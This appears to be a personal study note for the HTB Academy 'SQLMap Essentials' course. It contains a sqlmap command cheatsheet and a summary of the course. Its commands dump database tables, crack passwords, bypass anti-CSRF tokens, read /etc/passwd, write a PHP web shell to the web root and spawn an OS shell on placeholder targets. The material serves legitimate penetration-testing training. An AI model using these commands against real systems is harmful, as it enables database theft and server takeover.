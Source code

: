 # SQLMap Essentials

Tags: #🧑‍🎓
Related to:
See also:
Previous: [[HTB Academy]]

![[logo_sqlmap_essentials.png]]

The SQLMap Essentials module will teach you the basics of using SQLMap to discover various types of SQL Injection vulnerabilities, all the way to the advanced enumeration of databases to retrieve all data of interest.

### Cheatsheet

| **Command**                                                  | **Description** |
| ------------------------------------------------------------ | ----------------------------------------------------------- |
| `sqlmap -h`                                                  | View the basic help menu |
| `sqlmap -hh`                                                 | View the advanced help menu |
| `sqlmap -u "http://www.example.com/vuln.php?id=1" --batch`   | Run `SQLMap` without asking for user input |
| `sqlmap 'http://www.example.com/' --data 'uid=1&name=test'`  | `SQLMap` with POST request |
| `sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'` | POST request specifying an injection point with an asterisk |
| `sqlmap -r req.txt`                                          | Passing an HTTP request file to `SQLMap` |
| `sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'` | Specifying a cookie header |
| `sqlmap -u www.target.com --data='id=1' --method PUT`        | Specifying a PUT request |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt` | Store traffic to an output file |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch` | Specify verbosity level |
| `sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"` | Specifying a prefix or suffix |
| `sqlmap -u www.example.com/?id=1 -v 3 --level=5`             | Specifying the level and risk |
| `sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba` | Basic DB enumeration |
| `sqlmap -u "http://www.example.com/?id=1" --tables -D testdb` | Table enumeration |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname` | Table/row enumeration |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"` | Conditional enumeration |
| `sqlmap -u "http://www.example.com/?id=1" --schema`          | Database schema enumeration |
| `sqlmap -u "http://www.example.com/?id=1" --search -T user`  | Searching for data |
| `sqlmap -u "http://www.example.com/?id=1" --passwords --batch` | Password enumeration and cracking |
| `sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"` | Anti-CSRF token bypass |
| `sqlmap --list-tampers`                                      | List all tamper scripts |
| `sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba` | Check for DBA privileges |
| `sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"` | Reading a local file |
| `sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"` | Writing a file |
| `sqlmap -u "http://www.example.com/?id=1" --os-shell`        | Spawning an OS shell |

### Module Summary

Most web applications these days are connected to a database at the backend that stores various types of data the web page needs to display, from user information to front end content.

It is very common for such web applications to improperly implement calls to the database, making it possible for an attacker to manipulate the HTTP requests sent to the server to trick the database into showing more data than the developers intended. This type of attack is called a SQL Injection (SQLi).

SQLMap is an automated tool specializing in automating SQL injection discovery and exploitation, making it very trivial for pentesters to discover and exploit SQL injection vulnerabilities.

In the `SQLMap Essentials` module, you will learn the basics of using SQLMap to discover various types of SQL injection vulnerabilities, all the way to advanced database enumeration and retrieval of interesting data.

In this module, we will cover:

-   Overview and installation of SQLMap
-   Different types of SQL Injection attacks supported by SQLMap, and where to use each
-   Understanding the various output of SQLMap, to properly guide your attacks
-   Attacking specific parts of a web application with the use of HTTP requests
-   Dealing with various types of errors that we may be faced with when using SQLMap
-   Using various SQLMap options to tune attacks to our specific needs
-   Enumerating full databases and extracting the content of their tables, columns, and rows
-   Advanced database enumeration to find specific data
-   Finding usernames and passwords within databases and using SQLMap to crack them
-   Bypassing various types of protections that may be in place to protect the web application against SQLMap
-   Using SQLMap to read and write files to the remote server
-   Using SQLMap to execute commands on the remote server and taking complete control over it

This module is broken down into sections with accompanying hands-on exercises to practice each of the tactics and techniques we cover. The module ends with a practical hands-on skills assessment to gauge your understanding of the various topic areas.

As you work through the module, you will see example commands and command output for the various topics introduced. It is worth reproducing as many of these examples as possible to reinforce further the concepts introduced in each section. You can do this in the Pwnbox provided in the interactive sections or your own virtual machine.

You can start and stop the module at any time and pick up where you left off. There is no time limit or "grading," but you must complete all of the exercises and the skills assessment to receive the maximum number of cubes and have this module marked as complete in any paths you have chosen.

The module is classified as "Easy" but assumes a working knowledge of the Linux command line and an understanding of information security fundamentals.

A firm grasp of the following modules can be considered prerequisites for successful completion of this module:

-   Introduction to Networking
-   Linux Fundamentals
-   Web Requests